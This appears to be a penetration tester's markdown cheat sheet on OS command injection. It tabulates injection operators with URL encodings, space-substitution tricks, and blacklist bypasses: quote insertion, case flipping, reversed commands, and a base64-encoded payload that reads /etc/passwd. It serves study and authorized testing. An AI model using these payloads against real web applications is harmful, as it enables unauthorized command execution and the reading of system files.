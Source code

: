 # Command Injection Notes

If some type of functionality is given with input we can enter try to abuse, like in the case of a website with a ping checker.

## Cheat sheets

Injection Operators
|Injection Operator|	Injection Character |	URL-Encoded Character 	|Executed Command|
|:----|:----|:----|:----|
|Semicolon |	; 	|%3b |	Both|
|New Line| 	\n |	%0a 	|Both|
|Background| 	& 	|%26 	|Both (second output generally shown first)|
|Pipe 	| 	%7c 	|Both |(only second output is shown)|
|AND 	|&& 	|%26%26 	|Both (only if first succeeds)|
|OR 	|\|\| |	%7c%7c| 	Second (only if first fails)|
|Sub-Shell |	`` 	|%60%60 	|Both (Linux-only)|
|Sub-Shell| 	$() 	|%24%28%29 	|Both (Linux-only)|

### Linux

|Code| 	Description|
|:----|:----|
|printenv 	|Can be used to view all environment variables|
### Spaces 	
|Code| 	Description|
|:----|:----|
|%09 	|Using tabs instead of spaces|
|${IFS} 	|Will be replaced with a space and a tab. Cannot be used in sub-shells (i.e. $())|
|{ls,-la} 	|Commas will be replaced with spaces|
### Other Characters 	
|Code| 	Description|
|:----|:----|
|${PATH:0:1} |	Will be replaced with / |
|${LS_COLORS:10:1} 	|Will be replaced with ;|
|$(tr '!-}' '"-~'<<<[) 	|Shift character by one ([ -> \)|

### Blacklisted Command Bypass
### Character Insertion 	
|Code| 	Description|
|:----|:----|
|' or " 	|Total must be even|
|$@ or \ 	|Linux only|
### Case Manipulation 	
|$(tr "[A-Z]" "[a-z]"<<<"WhOaMi") |	Execute command regardless of cases|
|$(a="WhOaMi";printf %s "${a,,}") 	|Another variation of the technique|
### Reversed Commands 	
|echo 'whoami' \| rev |	Reverse a string|
|$(rev<<<'imaohw') 	|Execute reversed command|
### Encoded Commands 	
|echo -n 'cat /etc/passwd \| grep 33' \| base64 	|Encode a string with base64|
|bash<<<$(base64 -d<<<Y2F0IC9ldGMvcGFzc3dkIHwgZ3JlcCAzMw==)| 	Execute b64 encoded string|
